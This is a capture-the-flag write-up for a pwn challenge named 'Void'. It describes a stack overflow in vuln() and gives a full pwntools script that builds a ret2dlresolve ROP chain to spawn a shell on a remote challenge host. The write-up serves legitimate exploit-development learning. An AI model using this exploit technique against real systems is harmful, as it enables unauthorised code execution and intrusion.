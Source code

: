 # Void
**Date**: 2025-05-18

**Category**: Pwn

## Table of Contents
- [Summary](#summary)
- [Reconnaissance & Enumeration](#reconnaissance--enumeration)
- [Exploitation](#exploitation)
- [Takeaways & Lessons Learned](#takeaways--lessons-learned)

---

## Summary
A pwn challenge called void that doesn’t respond locally forces us into a reverse-shell exploit using a ret2dlresolve ROP chain against a non-PIE, NX-enabled binary with partial RELRO and no canary.

---

## Reconnaissance & Enumeration
Files:
    void (binary)
    glibc folder (custom libc & loader)
    flag.txt (dummy)

Behavior:
    ./void and nc host port yield no output—“void” lives up to its name.
    Disassembly reveals main() immediately calls vuln().

Vulnerability:
    In vuln(), a 64-byte stack buffer is overrun by read(fd=0, buf, 200).

Protections (checksec):
    Partial RELRO → GOT partly writable
    No canary → stack overflow OK
    NX enabled → no shellcode on stack
    No PIE → fixed addresses for ROP

---

## Exploitation
1. Offset discovery
    Generate a 1 kB cyclic pattern in GDB
    Crash and inspect rsp vs. rbp → offset = 72 bytes

2. Craft ret2dlresolve payload
    Target symbol: system("/bin/sh")
    Build ROP:


```python
from pwn import *

void   = ELF("void")
libc   = ELF("glibc/libc.so.6")
ld     = ELF("glibc/ld-linux-x86-64.so.2")
context.binary = void.path

rop      = ROP(void)
resolver = Ret2dlresolvePayload(void, symbol="system", args=["/bin/sh"])
rop.read(0, resolver.data_addr)
rop.raw(rop.ret[0])
rop.ret2dlresolve(resolver)
chain = rop.chain()

p = remote("83.136.250.158", 39848)
p.sendline(b"A"*72 + chain)
p.sendline(resolver.payload)
p.interactive()

```
3. 
Now it was time to execute. I ran the script and obtained the reverse shell on remote, and did simple lookups to find flag.txt

## Takeaways & Lessons Learned
- Dynamic linking hacks: ret2dlresolve lets you call libc functions even with NX+partial RELRO.
- ROP basics: chain gadgets to call read(), pivot stack into your fake resolver structures, then invoke system().
- Binary protections matter: knowing which defenses are present (or absent) guides your exploit choice.
- Offset finding: GDB’s cyclic patterns remain the quickest way to pinpoint overflow lengths.